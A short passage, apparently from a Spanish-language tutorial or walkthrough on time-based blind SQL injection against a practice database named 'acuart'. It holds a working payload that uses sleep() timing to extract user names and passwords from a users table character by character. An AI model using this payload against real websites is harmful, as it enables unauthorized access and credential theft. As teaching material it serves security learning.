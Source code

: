 ![av. cant. car. info](/assets/img/screens/av_car_info2.png)

La cantidad de caracteres a extraer es: 9.

<br>
Extrayendo información:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">AND IF(substring((SELECT concat(name,',',pass) FROM acuart.users LIMIT 0,1),x,1)='x',sleep(8),null);#</font></pre>
